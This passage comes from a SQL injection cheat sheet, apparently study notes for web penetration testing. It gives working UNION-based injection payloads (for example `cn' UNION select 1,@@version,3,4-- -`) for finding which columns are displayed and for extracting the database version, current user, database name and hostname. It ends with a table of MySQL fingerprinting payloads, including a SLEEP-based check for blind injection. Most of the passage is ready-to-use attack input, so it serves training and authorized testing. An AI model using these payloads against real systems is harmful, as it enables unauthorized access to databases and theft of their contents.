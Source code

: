**3. Identify Displayed Columns**
```sql
-- Test visibility with numbers
cn' UNION select 1,2,3,4-- -
-- Expected output: Only 2,3,4 visible → Column 1 is hidden

-- Confirm with text markers
cn' UNION select 'COL1','COL2','COL3','COL4'-- -
-- Result: COL2, COL3, COL4 visible → Inject in columns 2,3,4
```

**4. Extract Data**
```sql
-- Extract in visible columns only
cn' UNION select 1,@@version,3,4-- -        # Database version
cn' UNION select 1,user(),3,4-- -           # Current user  
cn' UNION select 1,database(),3,4-- -       # Current database
```

### Data Extraction via UNION
```sql
-- Current database version
cn' UNION select 1,@@version,3,4-- -
cn' UNION select 1,version(),3,4-- -

-- Current database name
cn' UNION select 1,database(),3,4-- -

-- Current user
cn' UNION select 1,user(),3,4-- -
cn' UNION select 1,current_user(),3,4-- -

-- Database hostname
cn' UNION select 1,@@hostname,3,4-- -
```

---

## Database Enumeration

### MySQL Fingerprinting

**Why Fingerprint?** Different DBMS use different syntax. Knowing the database type determines which payloads to use.

**MySQL Fingerprinting Techniques:**

| Payload | When to Use | Expected Output (MySQL) | Wrong Output (Other DBMS) |
|---------|-------------|-------------------------|---------------------------|
| `SELECT @@version` | Full query output | `10.3.22-MariaDB-1ubuntu1` | MSSQL version / Error |
| `SELECT POW(1,1)` | Numeric output only | `1` | Error |
| `SELECT SLEEP(5)` | Blind/No output | 5-second delay + returns 0 | No delay |
